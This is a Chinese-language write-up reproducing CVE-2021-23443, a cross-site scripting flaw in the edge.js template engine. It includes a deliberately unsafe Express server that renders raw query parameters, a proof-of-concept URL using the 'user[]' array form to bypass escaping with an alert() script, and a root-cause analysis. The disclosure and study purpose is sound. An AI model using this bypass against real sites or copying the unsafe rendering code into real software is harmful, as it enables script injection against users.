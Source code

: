 ```yaml
---
title: CVE-2021-23443
---
```


# CVE-2021-23443


<Metadata author="swwind" time="2023-6-12" />

edge.js 是 Node.js 模板引擎。

edge.js 5.3.2 之前存在安全漏洞，当要呈现的输入是数组（而不是字符串或 SafeValue）时，即使使用了 `{{ }}`，类型混淆漏洞也可用于绕过输入清理。

## 漏洞详情信息表

|  漏洞名称  |  edge.js 跨站脚本漏洞  |
| :--------: | :--------------------: |
| CNNVD 编号 |   CNNVD-202109-1534    |
|  CVE 编号  | [CVE-2021-23443][nist] |
|    厂商    |       个人开发者       |
|  危害等级  |          低危          |
|  漏洞类型  |        跨站脚本        |

## 系统和软件环境配置详情信息表

- node v20.2.0
- yarn v1.22.19
- edge.js v5.3.1

## 漏洞还原详细步骤

1. 使用 `mkdir CVE-2021-23443` 指令新建目录用于测试。
2. 使用 `yarn init` 创建新的 nodejs 项目。
3. 使用 `yarn add edge.js@5.3.1` 安装带有缺陷的 edge.js 版本。
4. 使用 `yarn add express` 安装一个简易的 Web 后端框架。

## 漏洞测试或验证详细步骤

### 编写代码

我们假设有一个服务器，直接使用 edge.js 来作为网页渲染引擎。

新建文件 `index.js`，写入以下代码：

```js
const { join } = require("path");
const edge = require("edge.js").default;

edge.mount(join(__dirname, "views"));

const express = require("express");
const app = express();

app.use("/", (req, res) => {
  const param = req.query;
  const path = req.path.slice(1);
  res.send(edge.renderSync(path, param));
});

app.listen(3000, () => {
  console.log("Listening on http://localhost:3000/");
});
```

上面这段代码会监听 `3000` 端口，并且对外提供 Web 服务。所有请求的参数都会直接传递给 edge.js 的 `renderSync` 函数。

创建文件 `views/welcome.edge`，写入以下内容：

```html
<p>Welcome {{ user }}!</p>
```

之后我们使用 `node index.js` 开启服务器，并且使用浏览器访问 `http://localhost:3000/welcome?user=swwind` 页面，可以看到网页的内容如下。

![](/assets/exploits/figure1/fig1.png)

### 验证漏洞

一般来说，edge.js 会自动将我们的输入信息全部过滤，防止出现 XSS 攻击。

例如我们访问下面的连接，就会看到尝试注入的 `<script>` 标签都经过了过滤。

```
http://localhost:3000/welcome?user=%3Cscript%3Ealert('xss%20by%20swwind')%3C%2Fscript%3E
```

![](/assets/exploits/figure1/fig2.png)

但是如果我们尝试将输入的格式改成数组的形式，那么就可以绕过 edge.js 的过滤算法。

例如我们访问下面的链接，注意 `user` 被修改成了 `user[]`。

```
http://localhost:3000/welcome?user[]=%3Cscript%3Ealert('xss%20by%20swwind')%3C%2Fscript%3E
```

![](/assets/exploits/figure1/fig3.png)

可以看到成功绕过了 HTML 过滤，实现了 XSS 攻击。

### 漏洞分析

这个漏洞出现的原因在于 edge.js 内部的 `escape` 函数的缺陷。

![](/assets/exploits/figure1/fig4.png)

这个函数仅仅只对 `string` 类型的输入做了 `escape`，但是却没有判断其他不是 `string` 也不是 `SafeValue` 类型的数据。因此在这里我们只需要将输入用数组的形式给出，那么该函数将不会进行任何过滤，直接返回了原本的数组。之后的过程中程序会自动调用 `Array.prototype.toString` 函数将数组转换成字符串类型，该函数默认是先将所有元素转换成字符串，接着使用 `,` 进行拼接。当我们的输入是 `["<script>xxx</script>"]` 的时候，转换成字符串的结果自然就会是 `"<script>xxx</script>"`，从而可以轻松实现 XSS 攻击。

[nist]: https://nvd.nist.gov/vuln/detail/CVE-2021-23443
